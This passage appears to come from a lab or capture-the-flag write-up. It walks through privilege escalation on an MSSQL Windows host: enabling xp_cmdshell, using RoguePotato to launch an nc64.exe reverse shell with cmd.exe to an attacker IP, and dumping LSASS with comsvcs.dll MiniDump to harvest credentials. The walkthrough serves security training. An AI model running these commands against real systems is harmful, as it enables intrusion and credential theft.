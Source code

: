 ```sql
enable_xp_cmdshell
```

Unfortunately, we have no access to the Administrator folder. Privilege check via `xp_cmdshell 'whoami /priv'` reveals `SeImpersonatePrivilege`, exploitable via **RoguePotato**.

We prepare the environment (according to RoguePotato demo on their github page):
1. Upload `RoguePotato.exe` and `nc64.exe` to `C:\Users\Public` on SQL01 machine
2. Start a listener and relay on attacker machine:

	```bash
	sudo socat tcp-listen:135,reuseaddr,fork tcp:172.16.7.60:9999
	
	nc -lvnp 3001
	```

3. Launch exploit from SQL01:

	```sql
	xp_cmdshell C:\Users\Public\RoguePotato.exe -r 172.16.7.240 -e "C:\Users\Public\nc64.exe 172.16.7.240 3001 -e cmd.exe" -l 9999
	```

![](screenshots/9.png)

We now have a SYSTEM shell on SQL01 and can read:

```cmd
type C:\Users\Administrator\Desktop\flag.txt
```


### Credential Dump via LSASS on SQL01

We need credentials to access MS01. From the SYSTEM shell, we dump LSASS:

```cmd
tasklist /fi "imagename eq lsass.exe"

rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 664 C:\Windows\Temp\lsass.dmp full
```
